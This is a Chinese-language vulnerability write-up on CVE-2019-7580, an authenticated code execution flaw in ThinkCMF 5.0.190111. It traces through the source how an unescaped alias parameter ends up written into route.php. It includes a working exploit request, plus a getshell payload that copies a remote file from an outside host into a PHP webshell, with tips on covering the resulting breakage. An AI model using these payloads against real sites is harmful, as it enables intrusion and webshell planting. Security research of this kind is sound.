 （CVE-2019-7580）ThinkCMF 5.0.190111 后台代码执行漏洞
=====================================================

一、漏洞简介
------------

二、漏洞影响
------------

ThinkCMF 5.0.190111

三、复现过程
------------

### 0x01 利用过程：

后台登录状态下，
1、将payload插入数据库并读取然后写入data/conf/route.php文件

    POST /portal/admin_category/addpost.html HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 183
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    Cookie: PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
    Connection: close

    parent_id=0&name=111&alias=1'%3D%3Earray(%22%22)%2Cphpinfo()%2C'2

2、然后访问：

    /portal/admin_category/index.html

触发

    include data/conf/route.php

操作，执行payload。下图以执行sleep(5)作为演示。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId25.png)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId26.gif)

#### 补充

poc只是phpinfo,用eval一句话，或者用fputs写马 等都会报错

直接getshell exp

    1'=>array("",""),copy("http://t00ls.com/1.txt","1.php"),'2

这样网站也会崩掉

但是会再public下生成1.php

得快速连上，再清空thinkcmf\\data\\conf\\route.php 文件 网站方可恢复正常

### 0x02 利用过程与分析

#### 1、将payload插入数据库，写入data/conf/route.php文件

程序的入口是index.php,在index.php中\\think\\App::run()执行应用。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId30.png)

在App.php的run()函数139行，执行sef::exec();

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId31.png)

通过解析url，得到处理此次请求的控制器、类、函数，即`AdminCategoryController.php`的`addPost`函数。然后调用`self::invokeMethod()`。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId32.png)

通过反射执行`AdminCategoryController.php`的`addPost`函数。
在addPost函数中，从\$this-\>request-\>param()函数中得到请求中的参数传递给\$data。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId33.png)

然后通过\$this-\>validata调用父类(./simplewind/thinkphp/library/think/Controller.php)的validata函数进行过滤。然后将\$data传入`./app/portal/model/PortalCategoryModel.php`的addCategory函数进行实际的\"添加分类\"操作。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId34.png)

在addCategory函数中，184行这一句：

    $findRoute = $this->where('full_url', $fullUrl)->find();

通过查询数据中是否存在对应的url，由于是第一次插入，所以这里并没有查到。
154行和155行通过`setRoute`函数对数据库进行了两次插入操作。
根入`setRoute`函数，

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId35.png)

其中\$fullUrl和\$url的值如截图所示。 继续跟，

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId36.png)

在34行从数据库中查询查询相关数据，

    $routes      = $this->where("status", 1)->order("list_order asc")->select();

在`addCategory`函数的157行调用

    $routeModel->getRoutes(true);

最终得到`$allroutes`的值,创建`data/conf`目录，然后拼接待写入的`route.php`文件的完整路径，最后调用`file_put_contents()`完成写入。可见这个漏洞在于没有对`alias`参数中的单引号进行过滤，导致可通过闭合前后的单引号插入用户可控的payload。
写入前后对比如下：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId37.png)

#### 2、触发payload执行

带着登录的cookie访问`/portal/admin_category/index.html`，调用`routeCheck`函数进行url路由检测

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId39.png)

这里先

    include app/route.php

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId40.png)

然后，

    include data/conf/route.php

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId41.png)

最终执行我们的payload：`phpinfo()`。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-7580)ThinkCMF5.0.190111后台代码执行漏洞/media/rId42.png)

参考链接
--------

> <https://xz.aliyun.com/t/3997#toc-6>
>
> <https://www.t00ls.net/thread-55060-1-1.html>
